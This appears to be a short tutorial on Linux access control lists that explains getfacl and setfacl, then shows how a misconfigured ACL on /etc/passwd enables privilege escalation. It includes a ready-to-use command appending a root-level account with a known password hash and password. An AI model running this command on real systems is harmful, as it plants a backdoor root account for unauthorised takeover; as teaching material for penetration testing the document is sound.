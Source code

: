 ## Access Control List (ACL) in Linux
ACL allow us to appy a mpre specific set of permissions to a file or directory without chaning the base ownership and permissions. In this we can assain a particular user a specfic permission and give two or more group permission.

## The primary tools for managing ACLs are:
- **getfacle**: – View ACL permissions
- **setfacl**:setfacl – Modify ACL permissions

## Checking ACL permissions
Use the getfacl command to check if a file or directory has ACLs set:
```bash
getfacl /file-path
```

Example output:
```bash
# file: file-name
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
Here, the user user1 has rwx permissions on the file, even though he is not the owner.
# **Exploiting Misconfigured ACLs**
If a user has excessive permissions on sensitive files or executables, privilege escalation may be possible.

### **Write Permissions on /etc/passwd**
If an unprivileged user has write access to /etc/passwd, they can modify it to create a new user with root privileges.

Check ACLs on /etc/passwd
```bash
getfacl /etc/passwd
```
output:
```bash
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
user1 has write access, they can add a new root user manually:
```bash
echo 'rootme:$1$gi/ZEUV2$uaJQ9FUakihoLNuErGCkw0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then, switch to the new root user:
```bash
su rootme
```
Password is 123
